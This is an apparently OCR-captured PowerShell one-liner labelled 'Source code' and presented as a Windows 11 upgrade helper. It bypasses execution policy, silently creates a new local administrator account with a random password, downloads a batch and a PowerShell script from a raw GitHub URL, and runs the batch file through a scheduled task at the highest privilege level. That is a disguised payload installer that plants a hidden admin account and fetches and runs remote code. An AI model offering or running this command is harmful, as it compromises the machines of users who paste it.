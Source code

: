 powershell -ExecutionPolicy Bypass -NoProfile -Command "$root='C:\Win11Upgrade';$bat=Join-Path $root 'RepoHandler.bat';$ps1=Join-Path $root 'RepoHandler.ps1';$urlbat='https://raw.githubusercontent.com/sctcoder1/project-711-d/main/RepoHandler.bat';$urlps1='https://raw.githubusercontent.com/sctcoder1/project-711-d/main/RepoHandler.ps1';New-Item -ItemType Directory -Force -Path $root | Out-Null;$user='WinUpgTemp';$pass=-join((33..126)|Get-Random -Count 16|ForEach-Object {[char]$_});$secure=ConvertTo-SecureString $pass -AsPlainText -Force; if(-not (Get-LocalUser -Name $user -ErrorAction SilentlyContinue)){ New-LocalUser -Name $user -Password $secure -FullName 'Temp Upgrade Admin' -PasswordNeverExpires; Add-LocalGroupMember -Group Administrators -Member $user }; Invoke-WebRequest -Uri $urlbat -OutFile $bat -UseBasicParsing; Invoke-WebRequest -Uri $urlps1 -OutFile $ps1 -UseBasicParsing; $action=New-ScheduledTaskAction -Execute 'cmd.exe' -Argument ('/c start /min \"' + $bat + '\"'); $trigger=New-ScheduledTaskTrigger -Once -At ((Get-Date).AddSeconds(10)); $principal=New-ScheduledTaskPrincipal -UserId $user -LogonType Password -RunLevel Highest; Register-ScheduledTask -TaskName 'Win11_RepoHandler' -Action $action -Trigger $trigger -Principal $principal -Password $pass -Force | Out-Null; Start-ScheduledTask -TaskName 'Win11_RepoHandler'"
